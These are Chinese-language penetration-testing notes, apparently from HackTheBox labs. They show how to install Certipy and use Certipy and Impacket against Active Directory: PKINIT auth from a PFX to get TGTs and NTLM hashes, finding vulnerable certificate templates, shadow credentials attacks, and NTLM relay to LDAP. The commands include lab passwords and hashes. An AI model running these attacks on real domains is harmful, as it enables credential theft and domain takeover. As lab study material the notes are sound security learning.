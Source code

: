 python虚拟环境部署Certipy最新版v5.0.2，注意kali有自带的Certipy工具名叫certipy-ad，版本为Certipy v4.8.2。注意使用Certipy v4.8.2可能不支持带密码保护的pfx证书，需要先解除保护，具体参考[链接](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate)。

```bash
python3 -m venv certipy
source certipy/bin/activate
pip install certipy-ad
certipy -h

# 退出虚拟环境
deactivate
```

Certipy 将加载 PFX，执行 PKINIT 以获取管理员的 Kerberos TGT，甚至尝试检索 NTLM 哈希。

```bash
# 需要时间同步，否则执行会失败
certipy auth -pfx ca_svc.pfx -password 42qC3AQgi1qGEb8OuYXw -dc-ip '10.10.11.69' -username 'ca_svc' -domain 'fluffy.htb'

# 使用以下选项可能会避免时间同步问题
-ns nameserver        Nameserver for DNS resolution
-dns-tcp              Use TCP instead of UDP for DNS queries
```

查找域用户ca_svc的证书模板漏洞。

```bash
certipy find -u ca_svc -hashes ":ca0f4f9e9eb8a092addf53bb03fc98c8" -dc-ip '10.10.11.69' -vulnerable -enabled

certipy find -u john -p 'P@ssw0rd456!' -dc-ip '10.129.116.183' -vulnerable -enabled
```

p.agila对ca_svc有`GenericWrite` 权限，可直接发动影子凭据攻击获取ca_svc的Kerberos票据和NTLM Hash

```bash
certipy shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -account 'ca_svc' auto
certipy shadow -u 'sam@tombwatcher.htb' -p 'Password123!' -dc-ip '10.129.189.93' -account 'john' auto
```

## Impacket-ntlmrelayx 

```bash
# 中继一个对winrm_svc有写入影子凭据权限的NTLM认证，生成RSA密钥对，修改winrm_svc的影子凭据属性，输出.pfx证书文件。
impacket-ntlmrelayx -t ldap://dc01.fluffy.htb --shadow-credentials --shadow-target 'winrm_svc'
```

## Impacket-getTGT 

```bash
impacket-getTGT -dc-ip 10.10.11.69 -cert-pfx winrm_svc.pfx fluffy.htb/winrm_svc
```
